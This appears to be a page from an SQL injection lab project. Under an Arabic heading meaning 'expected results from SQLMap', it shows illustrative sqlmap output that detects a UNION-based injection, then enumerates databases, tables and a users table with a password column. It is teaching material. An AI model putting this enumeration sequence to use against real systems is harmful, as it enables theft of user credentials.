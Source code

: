 
## 📊 **النتائج المتوقعة من SQLMap**

### 🔍 **Phase 1: Vulnerability Detection**
```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the parameter JSON is dynamic
[INFO] confirming that parameter JSON is dynamic
[INFO] heuristic (basic) test shows that parameter JSON might be injectable
[INFO] testing for SQL injection on parameter JSON
[INFO] testing 'PostgreSQL UNION query (NULL) - 1 to 20 columns'
[INFO] parameter JSON is 'PostgreSQL UNION query (NULL) - 1 to 20 columns' injectable
```

### 🗃️ **Phase 2: Database Discovery**
```
available databases [3]:
[*] information_schema
[*] postgres
[*] sqli_lab
```

### 📋 **Phase 3: Tables Found**
```
Database: sqli_lab
[4 tables]
+------------------+
| admin_settings   |
| logs            |
| user_sessions   |
| users           |
+------------------+
```

### 👥 **Phase 4: Users Table Structure**
```
Database: sqli_lab
Table: users
[7 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| email       | varchar(255) |
| first_name  | varchar(100) |
| id          | int(11)      |
| last_name   | varchar(100) |
| password    | varchar(255) |
| role        | varchar(50)  |
| username    | varchar(100) |
+-------------+--------------+
```
